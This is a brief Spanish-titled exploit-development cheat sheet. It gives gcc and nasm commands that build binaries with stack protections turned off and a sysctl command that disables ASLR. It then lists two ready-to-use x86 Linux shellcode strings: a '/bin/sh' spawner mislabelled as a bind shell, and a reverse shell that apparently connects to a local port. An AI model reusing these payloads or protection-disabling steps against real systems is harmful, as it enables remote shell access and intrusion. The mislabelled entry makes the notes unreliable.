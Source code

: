 # Vulnes

## Comandos Útiles

    name=shellcode

    gcc $name.c -o $name -no-pie -ggdb -m32 -fno-pic -z execstack -mpreferred-stack-boundary=2 -fno-stack-protector

    nasm -f elf32 -o $name.obj $name.asm && ld -m elf_i386 -o $name $name.obj

## ASLR

    PATH: 			/proc/sys/kernel/randomize_va_space
    Disable Randomization: 	sysctl -w kernel.randomize_va_space=0

## shellcode

### bind_shell
        
    char shellcode[] = "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x4b\x4b\x4b\x4b";

    length = 49

### reverse_shell

    char shellcode[] = "\x89\xe5\x31\xc0\x31\xc9\x31\xd2\x50\x50\xb8\xff\xff\xff\xff\xbb\x80\xff\xff\xfe\x31\xc3\x53\x66\x68\x11\x5c\x66\x6a\x02\x31\xc0\x31\xdb\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\x66\xb8\x6a\x01\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x49\xcd\x80\x41\xe2\xf6\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";

    length = 93
